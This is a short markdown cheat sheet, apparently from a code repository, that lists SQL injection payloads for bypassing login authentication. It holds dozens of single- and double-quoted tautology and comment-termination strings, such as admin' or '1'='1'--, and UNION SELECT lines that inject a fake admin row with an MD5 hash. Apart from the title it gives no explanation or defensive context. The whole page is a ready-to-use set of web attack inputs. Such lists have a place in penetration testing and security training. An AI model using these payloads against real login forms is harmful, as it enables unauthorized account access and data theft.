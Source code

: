 # SQL Injection Authentication Bypass (Cheat Sheet)



![](/screenshot/02.png)


``` or 1=1 ```

``` or 1=1-- ``` 

``` or 1=1# ```

``` or 1=1/* ```

``` admin' -- ```

``` admin' # ``` 

``` admin'/* ``` 

``` admin' or '1'='1 ``` 

``` admin' or '1'='1'-- ```

``` admin' or '1'='1'# ``` 

``` admin' or '1'='1'/* ``` 

``` admin'or 1=1 or ''=' ```

``` admin' or 1=1 ```

``` admin' or 1=1-- ```

``` admin' or 1=1# ```

``` admin' or 1=1/* ```

``` admin') or ('1'='1 ```

``` admin') or ('1'='1'-- ```

``` admin') or ('1'='1'# ```

``` admin') or ('1'='1'/* ```

``` admin') or '1'='1 ```

``` admin') or '1'='1'-- ```

``` admin') or '1'='1'# ```

``` admin') or '1'='1'/* ```

``` 1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055 ```

``` admin" -- ```

``` admin" # ```

``` admin"/* ```

``` admin" or "1"="1 ```

``` admin" or "1"="1"-- ```

``` admin" or "1"="1"# ```

``` admin" or "1"="1"/* ```

``` admin"or 1=1 or ""=" ```

``` admin" or 1=1 ```

``` admin" or 1=1-- ```

``` admin" or 1=1# ```

``` admin" or 1=1/* ```

``` admin") or ("1"="1 ```

``` admin") or ("1"="1"-- ```

``` admin") or ("1"="1"# ```

``` admin") or ("1"="1"/* ```

``` admin") or "1"="1 ```

``` admin") or "1"="1"-- ```

``` admin") or "1"="1"# ```

``` admin") or "1"="1"/* ```

``` 1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055 ```
